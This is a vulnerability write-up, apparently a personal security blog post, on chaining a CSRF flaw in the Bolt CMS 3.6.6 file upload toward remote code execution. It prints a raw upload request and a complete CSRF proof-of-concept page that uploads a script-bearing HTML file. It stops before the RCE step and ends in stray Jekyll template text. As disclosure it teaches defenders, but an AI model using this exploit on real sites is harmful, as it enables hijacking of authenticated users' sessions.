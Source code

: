 ```yaml
---
layout: post
---
```

A few days ago I started taking interest in Bolt, a content management that quoting from its github, is a "[Sophisticated, lightweight & simple CMS][bolt]".

The team behind it really did a great job in making the CMS easy to use, and packed with a lot of features. I truly recommend you checking out their project if you are looking for a cool new CMS to use.

<img src="/images/2020-40-20-From-CSRF-to-RCE_01.png">

## Affected Version

Bolt CMS 3.6.6 - It is possible that lower versions are vulnerable as well.

## Explanation

It is common to find some vulnerabilities that alone don't actually create a good case, like CSRF and some types of XSS, so it's up to the attacker to make use of them and create creative ways to chain attacks.

In this post, I will be showing how it was possible to obtain Remote Code Execution through a Cross Site Request Forgery in Bolt CMS.

## Starting with CSRF

This flaw exists in the file upload section called "Files on the Stack", available for users that can manage content for the Homepage, Pages, Entries and Blocks.

You may think, CSRF on file upload? What can I do with this? Can I pwn the server sending PHP? No, BUT you can upload HTML files!

{% highlight text %}
POST /bolt/upload HTTP/1.1
Host: victim.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://victim.com/bolt/editcontent/homepage
X-Requested-With: XMLHttpRequest
Content-Length: 227
Content-Type: multipart/form-data; boundary=---------------------------6228775941835128519569528722
Connection: close
-----------------------------6228775941835128519569528722
Content-Disposition: form-data; name="files[]"; filename="test.html"
Content-Type: text/markdown

<html><script>alert("hi");</script></html>

-----------------------------6228775941835128519569528722--
{% endhighlight %}

This means that we, attackers, can execute arbitrary JavaScript in the same context as the application with the authenticated user privileges, which you will see how important it is for the attack.

A simple code to exploit CSRF and upload an HTML file is provided below (with the help of Burp Pro), it will upload a "test.html" file that can be located in a default path for every bolt installation: "/files/YEAR-MONTH" in my case: "victim.com/files/2019-04/test.html":

{% highlight html %}
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1\/bolt\/upload", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/javascript, *\/*; q=0.01");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------6228775941835128519569528722");
        xhr.withCredentials = true;
        var body = "-----------------------------6228775941835128519569528722\r\n" + 
          "Content-Disposition: form-data; name=\"files[]\"; filename=\"test.html\"\r\n" + 
          "Content-Type: text/markdown\r\n" + 
          "\r\n" + 
          "\x3chtml\x3e\x3cscript\x3ealert(\"hi\");\x3c/script\x3e\x3c/html\x3e\n" + 
          "\r\n" + 
          "-----------------------------6228775941835128519569528722--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
{% endhighlight %}


Check out the [Jekyll docs][jekyll-docs] for more info on how to get the most out of Jekyll. File all bugs/feature requests at [Jekyll’s GitHub repo][jekyll-gh]. If you have questions, you can ask them on [Jekyll Talk][jekyll-talk].

[bolt]: https://bolt.cm/
